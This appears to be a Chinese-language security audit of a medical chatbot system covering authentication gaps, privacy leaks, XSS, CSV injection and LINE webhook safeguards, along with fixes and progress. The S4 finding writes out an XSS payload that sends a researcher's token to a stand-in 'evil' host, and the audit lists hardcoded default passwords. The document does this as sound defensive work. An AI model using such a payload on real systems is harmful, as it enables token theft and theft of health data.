

# 資安審查

> [!abstract] 結論
> **目前不能上線、也不能接真實病患。** 有 6 項嚴重問題，其中 3 項已用實際請求證實：
> 未登入即可讀取病患對話、可冒用任何病患身分寫入資料、病患真名會送給 Google。
> 好消息是這些都集中在「身分認證沒有貫穿全系統」這一個根因，修起來是一組連動的改動，不是二十個零散的補丁。

> [!success] 修正進度（2026-10-30）
> - [x] S1 S2 S3 S4 S5 S6 —— 已修，`backend/test_security.py` 逐項回歸測試
> - [x] M1（AUTH_SECRET）、M2（CORS）、M4（CSV 注入）、L3（登入時序）—— 已修
> - [x] 儀表板前後端欄位不符 —— 已修，並加上契約測試
> - [ ] **S7 撤銷外流的 API key —— 需要你本人操作**
> - [x] 每人活動 LOG 與人員存取稽核（含登入失敗紀錄）
> - [x] LINE：驗簽、立即回 200、reply 失敗改 push、重送去重、一次性通行碼、猜碼鎖定、
>       居家版緊急指引、通知預覽不露症狀 —— `backend/test_binding.py`
> - [ ] M3 速率限制、M5 加密儲存、M6 HTTPS、M7 輸出內容檢查、L1 L2 L4 —— 部署前處理
> - [ ] LINE 上線前：以實機確認 Flex altText 的通知預覽；確認 EMERGENCY_CONTACT 號碼；IRB 揭露

> [!info] 審查方法
> 逐項讀程式碼定位，再用 FastAPI TestClient 發實際請求驗證。標「✅ 已實證」者有請求結果佐證；
> 其餘為程式碼層級確認。與 [[Review 問題清單]] 互補：那份偏系統設計，這份只看資安。

---

## 🔴 嚴重：上線或接觸真實病患前必修

### S1. 未登入即可讀取任何病患的完整對話 ✅ 已實證

- **位置**：`backend/main.py:277`（`/history/{patient_id}`）、`main.py:282`（`/sessions`）—— 兩者都沒有 `_require_role`
- **證據**：未帶 token 請求 `GET /history/P001` → **200，回傳 4 筆對話**
- **影響**：知道網址的人就能列出所有病患、讀取每個人的完整衛教對話（屬個人健康資料）
- **修法**：兩個端點加上 researcher/admin 驗證，與 `/stats`、`/export` 一致

### S2. 即時緊急警示 WebSocket 不需登入

- **位置**：`main.py:339`（`/ws/nurse`）
- **影響**：任何人連上 `ws://…/ws/nurse` 就能即時收到所有紅旗事件，內容包含**病患真名**（`main.py:126`、`:176` 的 `patient_name`）與原始訊息
- **修法**：連線時驗證 token（query 參數或首則訊息），限 researcher/admin；推播內容改用假名

### S3. 病患身分沒有綁定登入 ✅ 已實證

- **位置**：`main.py:111` `pid = request.patient_id`；`main.py:331` `req.patient_id`
- **證據**：用不存在的 `P999` 提交測驗 → **200，成功寫入**
- **影響**：
  - 任何人可以用任何病患身分發訊息、寫入測驗成績 → **研究資料可被汙染**，這對要發表的研究是致命的
  - 可大量偽造紅旗 → 護理師警示疲乏
  - 可塞入任意字串當 patient_id，搭配下一點變成儲存型 XSS
- **修法**：`/chat`、`/quiz` 改從 token 取得病患代號，**請求 body 不再接受 patient_id**

### S4. 研究者儀表板的潛在儲存型 XSS

- **位置**：`frontend/index.html:961` `onclick="selectPatient('${s.patient_id}')"` —— 這裡**沒有**經過 `escHtml`
- **攻擊鏈**：利用 S3 送出 `patient_id = x');fetch('//evil?'+authToken);//` → 存進資料庫 → 研究者打開儀表板點擊該病患 → 研究者的 token 外洩 → 攻擊者可匯出全部研究資料
- **目前狀態**：因為下方 B1 的欄位不符，`s.patient_id` 現在是 `undefined`，攻擊暫時不會觸發。**但一修好 B1，這個洞就會變成可利用**，所以兩者必須一起修
- **修法**：S3 修掉後 patient_id 不再可控；另外伺服器端驗證代號格式（如 `^P\d{3,}$`），前端改用 `data-*` 屬性 + 事件監聽，不在 onclick 字串裡拼接資料；`escHtml` 補跳脫單引號

### S5. 病患真名送進第三方 LLM

- **位置**：`main.py:268` `name=row["real_name"]` → `prompt.py:104` `姓名：{profile.name}`
- **影響**：每次問答都把病患真名連同年齡、診斷送給 Google。這直接違反 Phase 1 的去識別化設計（真名只該存在 `patients` 表），而 Google AI Studio 免費方案會用送出的內容改進模型
- **修法**：prompt 不需要姓名，拿掉；推播與日誌一律用假名。換成 Claude Sonnet 5（API 預設不用於訓練）可解決訓練問題，但**送出真名本身仍應移除**

### S6. 寫死的預設帳密，含管理者

- **位置**：`main.py:66-72`（`patient123` / `research123` / `admin123`）；`frontend/index.html:511` 登入頁直接顯示；`README.md:72-74`
- **影響**：一部署，任何人都能用 `A001 / admin123` 以管理者登入
- **修法**：正式環境不植入測試帳號（以環境變數控制）；第一個管理者帳號由環境變數提供密碼；登入頁移除帳密提示

### S7. 外流的 Google API Key 仍未確認撤銷

- `.env` 曾隨資料夾上傳雲端硬碟。**已確認 `.env` 從未進入 git 歷史**（所有 commit 都查過），GitHub 上沒有外洩
- 仍須至 [Google AI Studio](https://aistudio.google.com/apikey) 刪除重發，並檢查用量紀錄

---

## 🟡 中度

| # | 問題 | 位置 | 修法 |
|---|---|---|---|
| M1 | **`.env` 的 `AUTH_SECRET` 根本沒被讀到**。`auth.py` 讀的是 `os.environ`，但 pydantic-settings 讀 `.env` 時不會寫回 `os.environ`。結果每次重啟都產生新密鑰、所有人被登出；多 worker 部署時 token 會隨機失效 | `auth.py:24` | 改讀 `settings.AUTH_SECRET`，空值時拒絕啟動（正式環境） |
| M2 | CORS 允許任何來源 | `main.py:45` | 改為白名單（你的正式網域） |
| M3 | 沒有速率限制：`/login` 可暴力破解；`/chat` 可被灌爆，每次都耗用 LLM 配額（免費方案每日約 1,500 次） | 全域 | 加 rate limit（每 IP / 每帳號） |
| M4 | CSV 公式注入：病患訊息若以 `= + - @` 開頭，研究者用 Excel 開啟匯出檔時會被當成公式執行 | `stats.py:113` | 這些字元開頭的儲存格前面加 `'` |
| M5 | SQLite 明文儲存健康資料，沒有加密、沒有備份 | `data/tumor_bot.sqlite3` | 部署時用加密磁碟或改 PostgreSQL + at-rest encryption；排程備份 |
| M6 | 只有 HTTP；前端 API 位址寫死 `http://localhost:8000` | `index.html:654` | 部署走 HTTPS；API 位址改相對路徑 |
| M7 | Prompt injection：病患可嘗試誘導模型給用藥劑量建議。目前只靠 prompt 裡的安全規則，品質閘不檢查內容 | `prompt.py`、`quality.py` | 回答輸出加規則掃描（劑量、診斷用語），命中改轉介護理師 |

## 🟢 低度

| # | 問題 | 修法 |
|---|---|---|
| L1 | ONNX 模型從 HuggingFace 下載，沒有雜湊驗證 | 釘選 revision + 驗 SHA-256 |
| L2 | `requirements.txt` 版本用 `>=`，無法重現 | 產生 lock 檔 |
| L3 | 登入時帳號存在與否的回應時間不同，可推測帳號是否存在 | 帳號不存在時也做一次假雜湊 |
| L4 | token 沒有登出／撤銷機制，12 小時有效 | 加 token 版本號或黑名單 |

---

## ✅ 做對的地方

- **沒有 SQL injection**：查詢全部參數化；匯出端點的表名先過白名單（`users` 表會被拒絕）
- `.env` 從未進入 git 歷史
- 密碼用 PBKDF2-HMAC-SHA256（20 萬次）+ 隨機 salt；比對用 `hmac.compare_digest`
- token 簽章比對防時序攻擊
- 對話內容、紅旗紀錄在前端都經過 `escHtml`；WebSocket 警示用 `textContent`
- 研究統計與匯出有 401/403 把關，匯出只含假名

---

## 🐞 順帶發現：研究者儀表板從 Phase 1 起就是壞的 ✅ 已實證

> [!bug] 這是我在 Phase 1 改寫後端時造成的
> 前端讀的欄位名和後端回傳的不一致，我寫的 102 個測試都只測後端 API，沒有測前後端契約，所以沒抓到。

| 前端讀 | 後端實際回傳 | 後果 |
|---|---|---|
| `s.patient_id` | `patient_code` | 病患清單顯示 `undefined`，點了沒反應 |
| `f.keywords` / `f.content` / `f.severity` | `trigger` / `level` / `ts` | `f.keywords.join` 拋錯，紅旗面板整個掛掉 |
| `msg.role === 'user'` | `'patient'` / `'bot'` | 對話時間軸全部標成「AI 助理」 |

修 S4 時必須一起修，並補一個前後端契約測試。

---

## 建議修復順序

② 是核心。S1–S4 的根因相同：**系統只有『登入』這個動作，但登入的結果沒有被任何人使用**。修法是建立一個統一的「目前使用者」機制，每個端點都從它取得身分與角色，請求 body 不再自報身分。

這個機制也正好是 LINE 需要的：網頁使用者的身分來自 token，LINE 使用者的身分來自「經過簽章驗證的 LINE userId → 病患代號」綁定。兩者都產生同一種「目前使用者」，下游程式碼不必知道對方是從網頁還是 LINE 來的。

---

## LINE 部署的資安考量

LINE 會把伺服器放上公開網路，所以**上面 ①–④ 是 LINE 上線的前置條件**，不是之後再補的東西。

| 項目 | 要求 |
|---|---|
| Webhook 驗簽 | 每個請求用 Channel Secret 對原始 body 做 HMAC-SHA256，比對 `X-Line-Signature`；不符一律拒絕 |
| 回應時限 | Webhook 必須立刻回 200，處理丟背景。reply token 很快失效且只能用一次 |
| 好消息 | Phase 1 的「紅旗先篩、不經 LLM」路徑在毫秒內完成，**可以直接用 reply token 即時回覆急症**；需要 LLM 的一般問答再用 Push API 送出 |
| 身分綁定 | 由護理師發**一次性、會過期**的綁定碼，病患在 LINE 輸入後綁定 userId。**不能**沿用 v2.0 設計的「輸入 P001 即綁定」——那讓任何人都能冒用 |
| 重送去重 | LINE 會重送 webhook，需依事件 ID 去重，否則同一個急症會通知兩次 |
| 推播文字 | Push 訊息會出現在手機鎖定畫面，**推播內容不要寫診斷或症狀**，用「您有一則新的衛教回覆」這類中性文字 |
| 第三方揭露 | 病患訊息會經過 LINE 的伺服器，需在 IRB 與知情同意書中揭露 |
| 金鑰 | Channel Secret 與 Access Token 只放環境變數 |
| 費用 | Push 訊息依官方帳號方案計算額度，上線前確認方案 |

[[v2.0 LINE整合版架構書]] 第五章的三個 bug（`asyncio.run` 崩潰、同步阻塞、reply token 逾時）實作時要一併避開。
